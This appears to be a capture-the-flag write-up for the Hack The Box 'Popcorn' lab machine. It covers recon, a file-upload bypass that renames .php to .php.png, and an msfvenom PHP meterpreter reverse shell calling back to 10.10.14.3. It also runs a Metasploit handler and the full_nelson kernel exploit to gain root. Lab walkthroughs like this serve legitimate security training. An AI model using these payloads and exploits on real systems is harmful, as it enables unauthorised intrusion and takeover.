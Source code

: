 # Popcorn 10.10.10.6

## nmap
````
$ nmap -A 10.10.10.6
````
=> 80

## dirb -> bittornado
````
$ dirb http://10.10.10.6
http://10.10.10.6/torrent/
````
Bittornado is a torrent client. 

## Bittornado exploit : file upload (xx.php.png)

Register an account
Upload a torrent
Submit a screenshot : need to upload a .png file

Rename .php => .php.png 

Build a .php reverse shell
````
msfvenom -p php/meterpreter/reverse_tcp lhost=10.10.14.3 lport=4321 -f raw  > 123.php.png
````

Intercept the Post with Burp
Rename 123.php.png to 123.php
Meterpreter is uploaded... where ?

````
dirb http://10.10.10.6/torrent/
http://10.10.10.6/torrent/upload/ 
````
## Get meterpreter

Prepare a listener
````
$ msfconsole
msf use exploit/multi/handler
msf exploit(multi/handler) set payload php/meterpreter/reverse_tcp
msf exploit(multi/handler) set lhost 10.10.14.3
msf exploit(multi/handler) set lport 4321
msf exploit(multi/handler) exploit

meterpreter > sysinfo
 Linux popcorn 2.6.31-14
````

## Pric esc : full_nelson

=> Linux Kernel <= 2.6.37 local privilege escalation : full_nelson : 3 Privilege to get root
````
https://www.exploit-db.com/exploits/15704
````


upload 15704.c
shell
````
gcc 15704.c -o exploit
chmod 755 exploit
./exploit
id
uid=0(firefart)
cat /root/root.txt
````
 

